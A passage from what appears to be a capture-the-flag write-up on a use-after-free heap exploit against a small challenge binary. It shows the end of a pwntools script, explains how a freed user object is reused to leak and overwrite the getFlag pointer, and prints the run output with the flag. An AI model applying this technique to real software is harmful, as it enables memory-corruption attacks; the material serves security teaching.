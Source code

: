 ```py
p.sendline(p64(pie_leak)*2)
#(3,":")
p.interactive()
```

there is not a 100 percent success rate with this script, but it works for the majority of the time. If you find
the script hanging for more than 5 seconds, then feel free to SIGTERM and restart. This will do exactly as i had
explained in the visual chart, it will allocate a user, with the name of "AAAAAAAA", then free it. This will
create a pointer to a freed chunk of memory. We will then allocate an admin, and show name, which will output the
address of getFlag.

after the arbitrary read, it will then proceed to "change name" of the user, allowing us to write to where this
pointer, points to, which is the admin object. It will allow us to write 16 bytes, and since it is using read, and
attempting to write 1 byte chars, it will crash if not recieved full 16 bytes. So we can overwrite both admin_info
AND getFlag function with getflag, so when we look at admin info, we call get flag.

lets run this and see the output:

```
[*] '/tmp/jail/uaf/main'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled                             
    PIE:      PIE enabled                            
[+] Starting local process '/root/research/pwn/heap/uaf/main': pid 24042
[*] Leaked address of getFlag: 0x56550c51b1a9
[*] Switching to interactive mode
 Make new admin
2: Make new user
3: Print admin info
4: Edit Student Name
5: Print Student Name
6: Delete admin
7: Delete user

Choice: What is your name: MENU
1: Make new admin
2: Make new user
3: Print admin info
4: Edit Student Name
5: Print Student Name
6: Delete admin
7: Delete user

Choice: $ 3
FLAG{UAF_ARE_TRICKY}
[*] Got EOF while reading in interactive
```
